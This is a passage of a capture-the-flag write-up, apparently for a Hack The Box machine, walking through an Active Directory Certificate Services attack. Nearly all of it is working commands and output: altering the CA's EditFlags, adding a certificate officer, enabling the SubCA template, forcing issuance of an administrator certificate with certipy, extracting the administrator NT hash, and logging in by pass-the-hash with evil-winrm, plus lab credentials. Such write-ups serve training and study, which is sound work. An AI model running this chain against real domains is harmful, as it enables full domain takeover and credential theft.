*Evil-WinRM* PS C:\Users\Raven\Documents> reg query HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\manager-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy -v EditFlags

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\manager-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy
    EditFlags    REG_DWORD    0x11014e

*Evil-WinRM* PS C:\Users\Raven\Documents> reg add HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\manager-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy -v EditFlags /d 0x40000 /f
reg.exe : ERROR: Access is denied.
    + CategoryInfo          : NotSpecified: (ERROR: Access is denied.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

Even trying it using impacket-reg and getting access denied

# impacket-reg 'dc01.manager.htb'/'raven':'R4v3nBe5tD3veloP3r!123'@10.10.11.236 add -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\manager-DC01-CA\\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy' -v EditFlags -vd NEW_VALUE
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
```
###### `Importing PSPKI Module & Settign EDITF_ATTRIBUTESUBJECTALTNAME2 In The Registry`
```
*Evil-WinRM* PS C:\Users\Raven\Documents> certutil -config "dc01.manager.htb\manager-DC01-CA" -getreg "policy\EditFlags"
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\manager-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags:

  EditFlags REG_DWORD = 11014e (1114446)
    EDITF_REQUESTEXTENSIONLIST -- 2
    EDITF_DISABLEEXTENSIONLIST -- 4
    EDITF_ADDOLDKEYUSAGE -- 8
    EDITF_BASICCONSTRAINTSCRITICAL -- 40 (64)
    EDITF_ENABLEAKIKEYID -- 100 (256)
    EDITF_ENABLEDEFAULTSMIME -- 10000 (65536)
    EDITF_ENABLECHASECLIENTDC -- 100000 (1048576)
CertUtil: -getreg command completed successfully.

=================================================================================================================
Notice Above that the EDITF_ATTRIBUTESUBJECTALTNAME2 is not present. 
=================================================================================================================
*Evil-WinRM* PS C:\Users\Raven\Documents> Import-Module PSPKI        # Luckly the PSPKI Module was present on the Target System
*Evil-WinRM* PS C:\Users\Raven\Documents> $ConfigReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "dc01.manager.htb"
*Evil-WinRM* PS C:\Users\Raven\Documents> $ConfigReader.SetRootNode($true)
*Evil-WinRM* PS C:\Users\Raven\Documents> $ConfigReader.GetConfigEntry("EditFlags","PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
1114446
*Evil-WinRM* PS C:\Users\Raven\Documents> $ConfigReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
*Evil-WinRM* PS C:\Users\Raven\Documents> certutil -config "dc01.manager.htb\manager-DC01-CA" -getreg "policy\EditFlags"
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\manager-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags:

  EditFlags REG_DWORD = 15014e (1376590)
    EDITF_REQUESTEXTENSIONLIST -- 2
    EDITF_DISABLEEXTENSIONLIST -- 4
    EDITF_ADDOLDKEYUSAGE -- 8
    EDITF_BASICCONSTRAINTSCRITICAL -- 40 (64)
    EDITF_ENABLEAKIKEYID -- 100 (256)
    EDITF_ENABLEDEFAULTSMIME -- 10000 (65536)
    EDITF_ATTRIBUTESUBJECTALTNAME2 -- 40000 (262144)
    EDITF_ENABLECHASECLIENTDC -- 100000 (1048576)
CertUtil: -getreg command completed successfully.
=================================================================================================================
Now the EDITF_ATTRIBUTESUBJECTALTNAME2 -- 40000 (262144) 
=================================================================================================================
```
###### `Adding Manage Certificate Permission to Raven`
```
# certipy ca -ca 'manager-DC01-CA' -u 'raven@dc01.manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -target dc01.manager.htb -add-officer Raven        
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```
###### `Enabling SubCA Template`
```
# certipy ca -ca 'manager-DC01-CA' -u 'raven@dc01.manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236  -enable-template SubCA
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
```

The above two steps `Adding Manage Certificate Permission to Raven` and `Enabling SubCA` Templates are the two prerequisites of this attack.

###### `Requesting Certificate For Domain Admin using SubCA Template`
```
This will going to fail but we need the Fail Request ID. Look at the following Command.

# certipy req -ca 'manager-DC01-CA' -u 'raven@dc01.manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 19
Would you like to save the private key? (y/N) y
[*] Saved private key to 19.key
[-] Failed to request certificate
```

###### `With Manage Certificate Permission We can issue any fail certificate with the Request ID`
```
# certipy ca -ca 'manager-DC01-CA' -u 'raven@dc01.manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -target dc01.manager.htb -issue-request 19
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

###### `Retrieve the issue certificate using Request ID`
```
# certipy req -ca 'manager-DC01-CA' -u 'raven@dc01.manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -retrieve 19
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 19
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '19.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

###### `Auth using administrator.pfx`
```
# certipy auth -pfx administrator.pfx 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)

# ntpdate dc01.manager.htb
2024-09-10 00:31:55.711465 (-0400) +348.842533 +/- 0.013865 dc01.manager.htb 10.10.11.236 s1 no-leap
CLOCK: time stepped by 348.842533

# certipy auth -pfx administrator.pfx 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef

```

###### `Getting Root Flag`
```
# evil-winrm -i 10.10.11.236 -u administrator -H ae5064c2f62317332c88629e025924ef
```
Get Your Root Flag